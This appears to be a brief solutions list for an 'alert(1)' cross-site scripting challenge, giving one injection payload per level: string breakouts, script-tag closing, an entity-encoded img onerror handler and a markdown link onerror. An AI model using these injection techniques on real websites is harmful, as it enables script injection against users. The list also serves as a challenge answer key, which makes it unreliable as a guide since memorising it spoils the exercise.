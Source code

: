 # alert(1)
- Warmupi: `"); alert(1);console.log("`
- Adobe: `\" + alert(1)) //` 
- JSON:  `</script><script>alert(1);//`
- Skandia: `</script><img src=/ onerror="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">` 
  html entity encode
- Markdown: `[[1|http://onerror='alert(1)']]`
